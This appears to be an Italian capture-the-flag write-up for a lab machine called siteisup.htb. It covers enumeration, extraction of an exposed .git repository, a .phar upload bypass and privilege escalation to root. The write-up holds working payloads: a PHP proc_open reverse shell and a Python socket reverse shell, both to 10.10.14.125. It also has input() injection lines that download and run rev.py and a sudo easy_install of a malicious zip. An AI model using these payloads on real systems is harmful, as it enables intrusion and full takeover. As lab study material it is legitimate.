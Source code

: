 ### 1. Scan delle porte

![nmap](imgs/nmap.JPG)


### 2. Enumerazione directory e sottodomini

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://siteisup.htb/ -x php
```

![dev](imgs/dev.JPG)

- __/dev/__ (STATUS CODE 200 BLANK PAGE)

Enumeriamo eventuali directory in __/dev/__

```bash
dirsearch -u http://10.10.11.177/dev
```

![git](imgs/git.JPG)

Notiamo che il repository __.git__ è esposto, quindi il prossimo passo è quello di estrarlo ed analizzarlo, uno strumento utile diponibile su github è [GitTools](https://github.com/internetwache/GitTools)

Adesso andiamo a cercare eventuali sottodomini

```bash
wfuzz -w /usr/share/wordlists/amass/subdomains-top1mil-20000.txt -u http://10.10.11.177 -H 'Host: FUZZ.siteisup.htb' --hh 1131
```

![subdomain](imgs/subdomain.JPG)

- __dev.siteisup.htb__ -> http://dev.siteisup.htb (__NO CONNECTION__)


### 3. Enumerazione Repository Git

```bash
wget -r http://10.10.11.177/dev/.git
```

Navighiamo _.git_ ed analizziamo i log degli ultimi commit.

```bash
git log
```

![log](imgs/log.JPG)

Notiamo questi due commit molto interessanti che hanno a che fare con un particolare metodo di sicurezza del sottodominio __dev__

```bash
git show bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab
```

![sec](imgs/sec.JPG)

Questo commit sembra aggiungere una semplice misura di sicurezza per consentire solo agli sviluppatori di accedere a dev.siteisup.htb, bisogna solo aggiungere l'header __Special-Dev: only4dev__ nelle richieste HTTP.

### 4. Exploit File Upload

il sito web in http://dev.siteisup.htb ci consente di caricare una lista di url e testare ognuno di essi per vedere se è up oppure down.
Ho inoltre scoperto la directory /uploads che apparentemente non contiene niente neanche in seguito all'upload di file.
Ho successivamente scoperto che i file che carichiamo vanno a finire in questa directory per il tempo in cui vengono elaborati dall'applicazione web, quindi bisogna creare un file molto grande che contiene molti URL da controllare.

Per ottenere una reverse shell quindi basterebbe caricare un file con estensione .php, ma questo non è possibile perchè molte estensioni sono filtrate, ma non __.phar__.

- file.phar

```php
<?php
phpinfo();
?>

...URLS...

```

carichiamo il file e visitiamo la directory uploads, vedremo la pagina di phpinfo.
Molte delle funzioni necessarie per ottenere una reverse shell sono disabilitate.

![phpinfo](imgs/phpinfo.JPG)

Possiamo utilizzare questo codice preso da [Web Shells 101](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) per listare le funzioni disponibili più utili per gli exploit.

```php
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

Ho quindi trovato che __proc_open___ è disponibile.
Allora ho progettato questo script php che ci invia una reverse shell.

```php
<?php

$descriptors = array(
    array('pipe', 'r'),
    array('pipe', 'w'),
    array('pipe', 'w'),
);

$cmd = 'bash -c "cat <(bash -i >& /dev/tcp/10.10.14.125/4444 0>&1)"';
echo $cmd . PHP_EOL;
$ph = proc_open($cmd, $descriptors, $pipes);
echo stream_get_contents($pipes[1]);
echo stream_get_contents($pipes[2]);
proc_close($ph);

?>
```

### 5. Privilege escalation orizzontale
 
In _/home/deveoper/dev_ è presente un file binario con SUID attivo che esegue uno script python con python2. 
Python 2.7 contiene una [vulnerabilità](https://medium.com/@abdelazimmohmmed/python-input-vulnerability-30b0bfea22c9) nella funzione di input che consente di eseguire codice python arbitrario prima che il programma crashi.

- __rev.py__:

```python
a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.14.125",4445));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")
```


Bisogna quindi eseguire il binario __siteisup__ per ognuno di questi payload:

```python
__import__("os").system("wget http://10.10.14.125:8000/rev.py")
__import__("os").system("chmod 777 rev.py")
__import__("os").system("python3 rev.py")
```


questi 3 payload mi consentono di scaricare una reverse shell (rev.py) sulla macchina remota dalla mia macchina locale ed eseguirla, in modo tale da avere una shell completa con __developer__ come user, ma il gruppo continua ad essere __www-data__.

A questo punto possiamo abusare delle chiavi SSH per ottenere una shell completa come utente __developer__

### 6. Privilege Escalation verticale

Visualizziamo i permessi particolari che l'utente _developer_ possiede sulla macchina.

```bash
sudo -l
```

Notiamo di poter eseguire questo binario con i privilegi di amministratore __/usr/local/bin/easy_install__.
Si tratta di un sostituto a pip che consente di installare moduli Python scaricandoli da URL esterni.

Per ottenere una shell ROOT il procedimento è abbastanza semplice, basta creare un file .zip che contiene una reverse shell python dentro il file setup.py

e poi possiamo installare tramite easy_install questo modulo malevolo che ci invia direttamente una reverse shell con privilegi di __root__.

```bash
sudo /usr/local/bin/easy_install http://10.10.14.125:8000/evil.zip
```

SIAMO ROOT!!!
